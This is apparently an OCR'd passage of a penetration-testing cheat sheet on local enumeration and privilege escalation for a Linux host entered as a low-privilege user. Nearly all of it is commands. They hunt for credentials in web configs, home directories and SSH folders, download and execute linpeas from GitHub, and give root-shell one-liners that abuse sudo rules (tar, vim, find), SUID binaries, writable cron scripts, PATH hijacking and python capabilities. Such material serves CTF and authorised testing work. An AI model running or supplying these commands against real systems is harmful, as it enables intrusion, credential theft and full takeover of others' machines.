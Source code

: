 12) Local enumeration (as low-priv user)
```
whoami; id; hostname; uname -a
ip a; ip route
ss -tulpn
sudo -l
ls -la /home
ls -la /var/www /var/www/html
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
ls -la /etc/cron*; cat /etc/crontab
env; echo $PATH
# Credential hunting
grep -RniE "passw|secret|token|key" /var/www /opt /home 2>/dev/null | head
cat /var/www/html/wp-config.php 2>/dev/null
for u in /home/*; do [ -d "$u/.ssh" ] && ls -la "$u/.ssh"; done
# Download linpeas (if allowed)
cd /tmp && curl -sOL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

13) Common privilege escalation paths

- Sudo misconfig (no password or NOPASSWD)
```
sudo -l
# If you can run something as root, check GTFOBins. Examples:
# tar
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# vim
sudo vim -c ':!/bin/sh'
# find
sudo find . -exec /bin/sh -p \; -quit
```

- SUID binaries (GTFOBins)
```
find / -perm -4000 -type f 2>/dev/null
# Example: find with SUID
/usr/bin/find . -exec /bin/sh -p \; -quit
```

- Writable cron or PATH hijack
```
cat /etc/crontab; ls -la /etc/cron.hourly /etc/cron.daily /etc/cron.weekly
# If a root cron runs a script you can edit:
echo -e '#!/bin/sh\n/bin/sh -p' > /path/to/writable_script && chmod +x /path/to/writable_script
# PATH hijack example if a root-run script calls 'ls' without full path:
echo -e '#!/bin/sh\n/bin/sh -p' > /tmp/ls; chmod +x /tmp/ls
export PATH=/tmp:$PATH
# Wait/trigger the script
```

- Capabilities
```
getcap -r / 2>/dev/null
# If python3 has cap_setuid+ep:
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
